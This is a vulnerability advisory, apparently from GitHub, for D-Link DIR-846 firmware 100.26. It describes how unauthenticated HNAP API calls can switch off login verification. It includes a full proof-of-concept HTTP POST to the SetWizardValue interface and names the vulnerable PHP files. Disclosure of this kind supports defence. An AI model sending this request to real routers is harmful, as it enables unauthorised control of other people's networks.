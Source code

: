 # D-Link DIR-846(w) Unauthenticated users can turn off API interface login verification #

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##
1. We Audit the source code of the file /squashfs-root/www/HNAP1/control/GetMultipleHNAPs.php,find some interfaces auch as "Login","Logout","SetWizardConfig","GetJumpConfig","SetWizardValue" hava No login verification required.
![](dlink4.png)
1. After completing the router initialization configuration，the value "wizard" in the file  /etc/config/my_system is 0. We can set the value "wizard" to 1 by a unauthorization request.Then the API interface login verification is tun off.
1. POC:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 36
Cookie: 
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetWizardValue":{"Wizard_XD":"1"}}
```
1. The vulnerable code is in file /squashfs-root/www/HNAP1/control/SetWizardValue.php：
![](dlink5.png)
